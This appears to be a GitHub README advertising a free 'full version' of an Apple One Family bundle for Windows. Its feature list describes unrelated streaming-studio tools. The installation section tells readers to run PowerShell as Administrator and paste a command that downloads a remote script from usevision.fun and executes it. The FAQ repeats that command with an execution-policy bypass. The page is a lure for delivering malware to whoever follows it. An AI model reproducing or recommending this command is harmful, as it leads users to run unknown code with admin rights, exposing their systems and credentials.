

<div align="center">


<br>


# Apple One Family Premium Bundle 2026
**Music streaming · Cloud storage · Arcade games**
<br>
**Music streaming · Cloud storage · Arcade games**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**Apple One Family — Apple Music, iCloud+ storage, Apple TV+, Apple Arcade and Fitness+ family seats all enabled.**

</div>
---

> One plan covers music, shows, games and cloud space — Family sharing seats and premium tiers all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎬 **Live production** — Multi-source scenes and switching enabled.
📡 **Stream output** — Broadcast to platforms with pro overlays.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for creator workstations.
🎛️ **Pro controls** — Audio, scenes and widgets included.
✨ **Premium modules** — Paid broadcaster features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 5 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 5 gb free space.
</details>


TAGS
apple-one-family, apple, apple-one, apple-premium, apple-2026, apple-app, music-streaming, windows, pro, desktop, software, studio, tools
